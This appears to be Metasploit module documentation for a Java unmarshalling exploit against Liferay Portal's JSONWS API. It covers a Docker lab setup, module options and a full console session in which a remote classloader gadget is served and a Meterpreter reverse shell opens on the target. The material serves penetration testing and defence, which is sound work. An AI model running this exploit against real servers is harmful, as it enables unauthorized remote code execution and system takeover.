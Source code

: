 ## Vulnerable Application

### Description

This module exploits a Java unmarshalling vulnerability via JSONWS in
Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, and 7.2.1
GA2 to execute code as the Liferay user. Tested against 7.2.0 GA1.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

**Note:** You may want to increase Docker's memory capacity up to 4 GB.
Liferay will crash at 2 GB or less. 4 GB seems to be the sweet spot.

Run `docker run -it -p 8080:8080 liferay/portal:7.2.0-ga1` (note the
added `7.2.0-ga1` tag) as per Liferay's [Docker Hub instructions](https://hub.docker.com/r/liferay/portal).
Any dependencies will be pulled automatically.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4,
and 7.2.1 GA2.

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, set this to a different port to avoid a port conflict
with the remote classloading server.

## Scenarios

### Liferay Portal 7.2.0 GA1 from [Docker Hub](https://hub.docker.com/r/liferay/portal)

```
msf > use exploit/multi/http/liferay_java_unmarshalling
msf exploit(multi/http/liferay_java_unmarshalling) > options

Module options (exploit/multi/http/liferay_java_unmarshalling):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2


msf exploit(multi/http/liferay_java_unmarshalling) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/liferay_java_unmarshalling) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf exploit(multi/http/liferay_java_unmarshalling) > set srvport 8888
srvport => 8888
msf exploit(multi/http/liferay_java_unmarshalling) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Liferay 7.2.0 CE GA1 MAY be a vulnerable version. Please verify.
[*] Using URL: http://0.0.0.0:8888/
[*] Local IP: http://192.168.1.3:8888/
[+] Started remote classloader server at http://192.168.1.3:8888/
[*] Sending remote classloader gadget to http://127.0.0.1:8080/api/jsonws/expandocolumn/update-column
[*] GET /Uphxohekruuokpedknflsriuafhrdsfk.class requested
[+] Sending constructor class
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] HEAD /metasploit.dat requested
[+] Sending 200
[*] GET /metasploit.dat requested
[+] Sending payload config
[*] HEAD /metasploit/Payload.class requested
[+] Sending 200
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] Sending stage (53928 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:58271) at 2020-04-08 07:05:47 -0500
[*] Server stopped.

meterpreter > getuid
Server username: liferay
meterpreter > sysinfo
Computer    : 588a96d744cb
OS          : Linux 4.19.76-linuxkit (amd64)
Meterpreter : java/linux
meterpreter >
```
